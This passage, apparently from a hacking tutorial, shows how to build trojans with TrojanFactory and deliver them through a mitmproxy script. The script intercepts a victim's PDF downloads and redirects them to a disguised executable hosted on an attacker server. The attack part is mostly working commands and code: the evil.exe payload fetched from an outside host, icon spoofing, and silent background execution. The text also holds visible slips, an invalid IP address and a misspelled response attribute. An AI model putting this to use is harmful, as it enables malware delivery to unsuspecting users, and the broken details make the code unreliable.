 7. So now when client clicks on a PDF file to be downloaded, that download request will be redirected to our fake file. This fake will is what will be downloaded to the clients machine.

**Generating Trojans Using TrojanFactory**
1. We will use the [TrojanFactory](https://github.com/z00z/TrojanFactory) application from GitHub to create a trojan and since it uses AutoIt, we will first install [AutoIt from the main web page](https://www.autoitscript.com/site/autoit/downloads/). The AutoIt download comes as a Windows .exe file, hence we will use the Wine tool to run the .exe on Linux terminal as shown below.
```shell
wine autoit-v3-setup.exe
```
Note : if you don't have wine installed on Linux, run the following command in terminal "dpkg --add-architecture i386 && apt-get update && apt-get install wine32"

2. Next, we will Clone TrojanFactory to our "opt" directory in the linux machine as shown below.
```shell
git clone https://github.com/z00z/TrojanFactory.git
```
Note: to run TrojanFactory, go to the cloned folder and type in "python trojan_factory.py"

3. In order create a trojan... TrojanFactory will do the following for us:
* Combine our evil file with a normal file(pdf, video, image, etc).
* Configure evil file to run silently in the background.
* Change the file icon.
The only thing we need to do is change the file extension... which I will cover later in this documentation

4. We will start off by running TrojanFactory. Along with the command, we will specify the location of the file that we will display for the target client. (For this documentation I will use a adobe acrobat reader readme PDF file as the normal file since it is conveniently stored on the internet and has a *direct URL* to the file. Also, I will host my evil file on my web server so TrojanFactory can combine it with the normal file.)
```shell
python trojan_factory.py -f https://pubs.usgs.gov/dds/dds-057/ReadMe.pdf -e http://10.15.262.5/evil.exe -o /var/www/html/ReadResult.exe -i /root/Downloads/pdf.ico -z
```
Note: here -f to specify the location of normal file, -e is to specify the location of evil file, -o is the location to store the result, -i is the location of the Trojan icon that is to be used, here I am using a PDF icon since the target download extension is a PDF. and -z to zip the file. Type in "python trojan_factory.py --help" for more info.

**Executing Bash Commands and Calling TrojanFactory From Our Script.**
1. We will write the following code in the proxyscript.py file using any text editor. In this script, we will call TrojanFactory (execute a bash command in the py script) to generate a trojan and then we will serve that trojan with the expected response to the client. In the below script we are intercepting PDF file. Feel free to intercept any file(.jpg, .exe, etc.) you want by changing the endswith extension. If you do change the extension, make sure to change the -i file to specify an icon that corresponds to the front_file extension.
```python
import mitmproxy
import subprocess

def request(flow):
    #code to handle request flows
    if flow.request.host != "10.15.262.5" and flow.request.pretty_url.endswith(".pdf"):
        print("[+] Got an intriguing flow")

        front_file = flow.request.pretty_url + "#"

        subprocess.call("python /opt/TrojanFactory/trojan_factory.py -f '" + front_file + "' -e http://10.15.262.5/evil.exe -o /var/www/html/file.exe# -i /root/Downloads/pdf.ico", shell=True)

        flow.reponse = mitmproxy.http.HTTPResponse.make(301, "", {"Location":"http://10.15.262.5/file.zip"})
```